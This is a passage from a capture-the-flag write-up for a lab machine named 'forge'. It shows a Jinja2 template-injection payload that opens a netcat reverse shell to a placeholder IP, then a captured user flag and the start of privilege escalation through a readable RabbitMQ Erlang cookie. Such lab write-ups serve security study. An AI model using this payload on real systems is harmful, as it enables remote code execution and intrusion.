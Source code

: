 Nice, now, our next step is getting a shell:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc IP PORT >/tmp/f').read() }}
```

After we send this:

![Pasted image 20250226161615.png](../../IMAGES/Pasted%20image%2020250226161615.png)

We got a shell as `azrael`, let's begin privilege escalation.

# PRIVILEGE ESCALATION
---

First step would be getting an [stable shell](../../Commands/Shell%20Tricks/STABLE%20SHELL.md):

![Pasted image 20250226161731.png](../../IMAGES/Pasted%20image%2020250226161731.png)

There is our first flag:

```shell
azrael@forge:~$ cat user.txt

98d3a30fa86523c580144d317be0c47e
```


If we check `/var/lib`, we can find this:


```
drwxr-xr-x  5 rabbitmq  rabbitmq  4096 Sep 12 00:32 rabbitmq
```

We find a `rabbitmq` directory, let's check the contents:

```
azrael@forge:~$ ls -la /var/lib/rabbitmq
total 896
drwxr-xr-x  5 rabbitmq rabbitmq   4096 Sep 12 00:32 .
drwxr-xr-x 45 root     root       4096 Sep 20 19:11 ..
drwxr-x---  3 rabbitmq rabbitmq   4096 Aug 15  2024 config
-r-----r--  1 rabbitmq rabbitmq     16 Feb 26 20:53 .erlang.cookie
-rw-r-----  1 rabbitmq rabbitmq 889386 Feb 26 20:53 erl_crash.dump
drwxr-x---  4 rabbitmq rabbitmq   4096 Feb 26 20:53 mnesia
-rw-r-----  1 rabbitmq rabbitmq      0 Sep 12 00:33 nc
drwxr-x---  2 rabbitmq rabbitmq   4096 Jul 18  2024 schema
```
